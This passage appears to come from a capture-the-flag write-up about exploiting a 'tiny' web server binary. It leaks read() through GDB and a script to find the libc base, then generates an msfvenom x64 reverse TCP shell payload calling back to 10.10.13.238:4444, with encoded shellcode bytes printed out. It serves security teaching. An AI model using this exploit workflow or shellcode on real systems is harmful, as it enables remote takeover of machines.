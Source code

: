 Fire up GDB again, and rerun the tiny in the same way. Set breakpoint,
and hit r.

``` bash

root@--name:/ctf/work# gdb -q tiny
Reading symbols from tiny...done.
pwndbg> b *0x000000000040178b
Breakpoint 1 at 0x40178b: file tiny.c, line 268.
pwndbg> r
Starting program: /ctf/work/tiny 
warning: Error disabling address space randomization: Operation not permitted
listen on port 9999, fd is 3
```

Go open another tab or something and run our script:

``` bash

root@--name:/ctf/work# python stage1.py 
read() is at 0x7fa328ae2250
libc base is at 0x7fa3289eb000
```

Nice, so let\'s confirm that this indeed works. We are going to look and
disassemble 0x7fa328ae2250 which is suposed to be address of read()
function.

``` bash

pwndbg> disassemble 0x7fa328ae2250
Dump of assembler code for function read:
   0x00007fa328ae2250 <+0>: cmp    DWORD PTR [rip+0x2d24e9],0x0        # 0x7fa328db4740 <__libc_multiple_threads>
   0x00007fa328ae2257 <+7>: jne    0x7fa328ae2269 <read+25>
   0x00007fa328ae2259 <+0>: mov    eax,0x0
   ....
```

And it indeed is. We successfuly leaked address of read, and thus are
able to calculate base of the libc ( you can play out, and test this by
adding offsets to other functions/calls and check if they match).

Allright, now let\'s wrap up this. Since we now can tell where push RSP
will be, we can use it to execute our shellcode from stack. For sake of
simplicity, i\'m going to use msfvenom to generate reverse~tcp~
shellcode for x64, and use handler to connected back to it.

``` bash

[badarg:/opt/metasploit-framework/bin]$ ./msfvenom -p linux/x64/shell/reverse_tcp LHOST=10.10.13.238 LPORT=4444  --bad-chars "\x00" -f python                                                        
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 2 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=56, char=0x00)
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 175 (iteration=0)
x64/xor chosen with final size 175
Payload size: 175 bytes
Final size of python file: 850 bytes
buf =  ""
buf += "\x48\x31\xc9\x48\x81\xe9\xef\xff\xff\xff\x48\x8d\x05"
buf += "\xef\xff\xff\xff\x48\xbb\x6b\xa3\xb0\x9e\x3c\xe7\x62"
buf += "\xc7\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += "\x23\x92\x4f\xf4\x35\xbf\xfb\x71\x7b\xeb\x39\x48\x71"
buf += "\xd6\xab\xad\x49\xe2\xea\x2c\x3b\xe8\x67\x8f\xee\x63"
buf += "\xc8\xcc\x56\xed\x23\x9e\x3d\xf3\xda\xb7\x64\x7e\x08"
```
